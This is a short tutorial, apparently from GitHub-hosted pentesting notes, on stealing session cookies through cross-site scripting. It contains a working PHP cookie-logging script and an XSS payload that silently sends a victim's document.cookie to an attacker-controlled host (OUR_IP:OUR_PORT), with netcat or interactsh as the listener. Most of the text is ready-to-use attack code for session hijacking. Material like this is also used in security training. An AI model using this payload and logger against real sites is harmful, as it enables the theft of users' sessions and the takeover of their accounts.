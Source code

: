 If an application is vulnerable to XSS, an attacker can leverage this vulnerability to obtain valid session identifiers (such as session cookies).

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:
- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First we have to create a cookie logging script.
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
```
This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

Next we will start a Netcat listener, alternatively we can also use Burp Collaborator or [interactsh](https://github.com/projectdiscovery/interactsh). Then we will use the following payload and inject it on the XSS-vulnerable form.
```txt
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://OUR_IP:OUR_PORT/log.php?c=' + document.cookie;"></video>
```

Wait for our listener to receive the request and see the session IDs appended on the request.